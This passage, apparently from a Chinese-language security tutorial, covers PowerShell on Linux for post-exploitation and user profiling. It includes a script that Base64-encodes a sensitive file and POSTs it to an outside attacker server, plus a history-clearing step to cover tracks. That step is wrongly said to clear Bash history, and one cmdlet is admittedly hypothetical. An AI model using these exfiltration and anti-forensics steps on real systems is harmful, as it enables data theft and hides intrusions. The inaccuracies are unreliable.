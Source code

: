 ```
 # List files in the /etc directory
Get-ChildItem -Path /etc
```

这个脚本枚举指定路径下的文件和目录。

## 数据外泄

Linux 上的 PowerShell 可以用来外泄数据。一个示例是将文件编码为 Base64 并发送到外部服务器：

```
 # Encode and exfiltrate a file
$fileContent = Get-Content /path/to/sensitive-file.txt -Raw
$encodedContent = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($fileContent))
Invoke-RestMethod -Uri "http s://snowcap cyber.com/upload" -Method POST -Body $encodedContent
```

这个脚本将文件的内容编码为 Base64，并将其发送到攻击者控制的服务器。

## 掩盖痕迹

Linux 上的 PowerShell 可以通过修改或删除日志来掩盖痕迹。一个示例是清除 Bash 历史记录：

```
 # Clear Bash history
Clear-History
```

这个脚本删除命令历史记录，通过清除已执行命令的记录来掩盖痕迹。

需要注意的是，在 Linux 上使用 PowerShell 进行后期利用可能不如在 Windows 上熟悉或强大。Linux 系统通常具有本地工具和脚本语言，如 Bash，这些工具更为普遍且集成度更高。虽然在特定场景下可以使用 Linux 上的 PowerShell，但理解和利用 Linux 特有的工具通常更为有效。安全专业人员在选择 Linux 上的后期利用技术时，应了解上下文和环境。

# 在 Linux 上使用 PowerShell 对用户进行分析

在 Linux 上使用 PowerShell 对用户进行分析，涉及收集用户活动、权限和系统交互的详细信息。尽管 Linux 提供了本地工具和命令进行系统分析，但 PowerShell 可以通过提供一致且可脚本化的界面来补充这些工具，从而在不同平台上都能使用。

## 用户信息

Linux 上的 PowerShell 可以检索特定用户的信息，包括用户名、UID、GID、主目录和 Shell。以下是一个示例：

```
 # Get information about a specific user
Get-User -Name andrewblyth
```

这个假设的 cmdlet **Get-User** 检索名为 **andrewblyth** 的用户信息。

## 正在运行的进程

PowerShell 可以列出正在运行的进程，并根据用户进行筛选。这允许快速查看与特定用户相关的进程：

```
 # Get processes for a specific user
Get-Process | Where-Object { $_.UserName -eq "andrewblyth" }
```

